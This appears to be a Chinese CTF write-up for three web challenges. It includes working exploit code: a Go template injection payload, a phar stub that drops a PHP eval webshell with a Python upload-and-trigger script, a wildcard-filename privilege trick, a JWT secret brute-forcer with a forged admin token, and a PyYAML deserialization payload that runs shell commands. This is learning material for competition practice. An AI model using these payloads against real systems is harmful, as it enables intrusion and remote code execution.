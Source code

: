 # 湾区杯wp

## ssti

​	输入`{{.}}`返回`map[B64Decode:0x6ee380 exec:0x6ee120]`，确认为go模板ssti,根据提供方法构建payload`{{ exec (B64Decode "Y2F0IC9mbGFn") }}`,使用base64编码绕过黑名单读取flag。

![image-20250908174223313](./assets/image-20250908174223313.png)

## easy_readfile

​	访问题目获得源码，我们可以通过`Acheron`上传Phar文件以及反序列化制定的Phar文件，我们可以写一个马传上去，之后反序列化释放马。

```php
<?php

$phar = new Phar('exp.phar');
$phar->startBuffering();
$stub = '<?php system(\'echo "<?php eval(\$_POST[114514]); ?>" > /var/www/html/114514.php\');__HALT_COMPILER();?>';
$phar->setStub($stub);
$phar->addFromString('114514.txt', '');
$phar->stopBuffering();
?>
```

​	为了防止黑名单过滤，我们使用gzip压缩后上传。

```python
import requests
import os

# 目标URL
TARGET_URL = "http://localhost:8888"  # 替换为实际目标URL

def upload_phar_file(file_path):
    """上传phar文件到目标服务器"""
    try:
        # 先使用mode=w上传文件内容
        with open(file_path, 'rb') as f:
            phar_content = f.read()
        
        # 构建POST数据，使用0作为键名
        data = {
            '0': phar_content,
            '1': 'O:7:"Acheron":1:{s:4:"mode";s:1:"w";}'
        }
        
        # 发送上传请求
        response = requests.post(TARGET_URL, data=data)
        
        if response.status_code == 200:
            # 从响应中获取保存的文件名
            filename = response.text.strip()
            print(f"文件上传成功，保存路径: {filename}")
            return filename
        else:
            print(f"文件上传失败，状态码: {response.status_code}")
            return None
    except Exception as e:
        print(f"上传过程出错: {str(e)}")
        return None

def trigger_deserialization(filename):
    """触发反序列化漏洞"""
    try:
        # 使用mode=r来包含文件，触发反序列化
        data = {
            '0': filename,
            '1': 'O:7:"Acheron":1:{s:4:"mode";s:1:"r";}'
        }
        
        response = requests.post(TARGET_URL, data=data)
        
        print(f"触发反序列化响应: {response.text}")
        return response.text
    except Exception as e:
        print(f"触发过程出错: {str(e)}")
        return None

if __name__ == "__main__":
    # 本地phar文件路径
    phar_file = "exp.phar.gz"
    
    # 检查文件是否存在
    if not os.path.exists(phar_file):
        print(f"错误: 文件 {phar_file} 不存在")
        exit(1)
    
    # 上传文件
    uploaded_filename = upload_phar_file(phar_file)
    uploaded_filename = uploaded_filename.split('/')[-1]  # 提取文件名部分
    uploaded_filename = f"/tmp/{uploaded_filename}"  # 构造上传后的路径
    print(f"提取的文件名: {uploaded_filename}")
    # 如果上传成功，触发反序列化
    if uploaded_filename:
        trigger_deserialization(uploaded_filename)
```

​	之后使用蚁剑连接获取shell，发现flag在目录`/flag`但是没有权限读取，但是通过查看进程发现有`run.sh`脚本并且使用root身份运行，主要实现了没十分钟将当前目录下`*`搬运到backup目录。

​	我们在当前目录创建flag文件软链接到/flag文件，之后创建`-b`和`-L`，等待后就可以在backup目录下flag文件查看到flag。

## ez_python

​	查看网站源码发现`/sandbox`和`/auth`接口，访问`/auth`接口获取到jwt token，base64解密之后获取到结构和加密算法，尝试伪造

```python
import jwt
jwt.encode({"username":"admin", "role":"admin"}, key='', algorithm='none')
```

​	服务器返回

```json
{"error":"JWT Decode Failed. Key Hint","hint":"Key starts with \"@o70xO$0%#qR9#**\". The 2 missing chars are alphanumeric (letters and numbers)."}
```

​	写一个脚本通过已知token爆破密钥

```python
import jwt
import string

def brute_force_jwt_key(known_prefix, jwt_token, algorithm='HS256'):
    """
    爆破JWT密钥的后两位字符
    
    参数:
        known_prefix: 已知的密钥前缀
        jwt_token: 待验证的JWT令牌
        algorithm: 使用的加密算法，默认HS256
    """
    # 可能的字符集：字母(大小写)、数字和常见符号
    chars = string.ascii_letters + string.digits + '!@#$%^&*()_+-=[]{}|;:,.<>?`~'
    
    print(f"开始爆破JWT密钥，已知前缀: {known_prefix}")
    print(f"使用算法: {algorithm}")
    print(f"总尝试次数: {len(chars) * len(chars)}")
    
    # 遍历所有可能的后两位字符组合
    for c1 in chars:
        for c2 in chars:
            # 构建完整密钥
            candidate_key = known_prefix + c1 + c2
            
            try:
                # 验证JWT签名
                jwt.decode(
                    jwt_token,
                    candidate_key,
                    algorithms=[algorithm],
                    options={"verify_signature": True}
                )
                # 如果验证成功，返回找到的密钥
                print(f"\n找到有效密钥: {candidate_key}")
                return candidate_key
            except jwt.InvalidSignatureError:
                # 签名无效，继续尝试
                continue
            except Exception as e:
                # 其他错误
                print(f"尝试密钥 {candidate_key} 时出错: {str(e)}")
                continue
    
    # 如果没有找到有效密钥
    print("\n未找到有效密钥")
    return None

if __name__ == "__main__":
    # 配置参数 - 请根据实际情况修改
    KNOWN_KEY_PREFIX = "@o70xO$0%#qR9#"  # 已知的密钥前缀
    JWT_TOKEN = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imd1ZXN0Iiwicm9sZSI6InVzZXIifQ.karYCKLm5IhtINWMSZkSe1nYvrhyg5TgsrEm7VR1D0E"           # 待验证的JWT令牌
    ALGORITHM = "HS256"                         # 使用的算法，通常是HS256
    
    # 执行爆破
    brute_force_jwt_key(KNOWN_KEY_PREFIX, JWT_TOKEN, ALGORITHM)
```

​	爆出来是`@o70xO$0%#qR9#m0`

​	伪造token，获取文件上传权限

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIn0.-Ws9e4GwaL0hesqjmSuOKNmyximBStder-7VnXK0w70
```

​	写一个yaml实现rce找到flag并获取flag内容

```yam
command_result: !!python/object/apply:subprocess.check_output
  args:
    - [bash, -c, "cat /f1111ag"]
  kwargs:
    stdout: -1
    stderr: -2
```